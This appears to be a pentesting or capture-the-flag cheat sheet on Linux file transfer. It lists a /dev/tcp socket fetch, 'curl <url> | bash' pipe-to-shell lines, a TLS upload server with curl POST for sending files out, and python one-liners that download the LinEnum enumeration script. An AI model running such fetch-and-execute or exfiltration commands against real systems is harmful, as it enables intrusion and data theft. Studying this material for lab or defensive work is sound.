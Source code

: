 # linux file transfers
with bash version 2.04 installed we can connect directly using sockets if file tranfer tools are not available this would be considered fileless
```bash
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /file.txt HTTP/1.1\n\n"> &3
cat <&3
```
- plus the usual wget and curl
curl <url> | bash
wget <url> | bash

## upload with python3 upload server
```bash
sudo python3 -m pip install --user uploadserver
```
-  to use ssl/tls create a certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
- start the server
```bash
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem 
```
- transfer multiple files
```bash
curl -X POST https://<ip>/upload -F 'files=@/path/to/file' -F 'files=@/path/to/file' --insecure
```
- Stand up a quick webserver

```python
python3 -m http.server
# or in python 2
python -m SimpleHttpServer
```
- or with php
```bash
php -s 0.0.0.0:8000
```
- or with ruby
```ruby
ruby -run -ehttpd . -p8000
```
- getting a file with get in python
```python
import requests

url = 'http://10.129.138.131/flag.txt'
r = requests.get(url, allow_redirects=True)
open('flag.txt', 'wb').write(r.content)
```
# transferring files with code
- python2.7
```python
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
- python3
```python
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
